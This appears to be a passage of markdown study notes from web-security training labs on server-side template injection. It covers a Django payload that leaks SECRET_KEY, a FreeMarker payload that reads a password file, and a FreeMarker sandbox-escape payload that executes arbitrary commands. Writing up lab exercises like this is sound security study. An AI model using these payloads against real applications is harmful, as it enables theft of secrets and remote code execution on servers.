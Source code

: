 ![[2022-05-30 21_28_09-Server-side template injection with information disclosure via user-supplied obj.png]]

- The output will contain a list of objects and properties to which you have access from within this template. Crucially, notice that you can access the settings object.
- When you create a new Django project using startproject, the settings.py file is generated automatically, so here notice that you can access the `settings` object.
- And there is a `SECRET_KEY` attribute in the settings.
- Check out: https://docs.djangoproject.com/en/4.0/ref/settings/#secret-key

###### You will use this payload to get the secret key:
- Payload ==> `{{settings.SECRET_KEY}}`

-----------------------------------------------------------------------
-----------------------------------------------------------------------



## Lab6:# SSTI in a sandboxed environment
- After Detecting if there is an SSTI vulnerability through any payload will evaluate correctly like `${7 * 7}`, now we can identify the template by causing the error:

![[sandbox environment.png]]

- another one, It is a freemarker template engine(java).

> ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('`File_Path`').toURL().openStream().readAllBytes()?join(" ")}
- **You will set thi path ==> /home/carlos/my_password.txt
 
![[decimal.png]]
- The contects of file will appear as decimal ASCII code then you can convert it to raw form.

-->Check out the decimal ascci chart :https://www.asciichart.com/

- For doing it quickly, you can use [CyberChef](https://gchq.github.io/CyberChef/)

![[cyberchef.png]]
------------------------------------------------------------------------------------------
- Another payload but you will identify the existing object in the template:
==> Here you will set the `product` object.

><#assign classloader=`object`.class.protectionDomain.classLoader>
  <#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
  <#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
  <#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
  ${dwf.newInstance(ec,null)("`Execute_any_commands_here`")}

- If you will set any object rather than the intended object, this error message will appear for you.

![[missing and null object.png]]

-----------------------------------------------------------------------
-----------------------------------------------------------------------

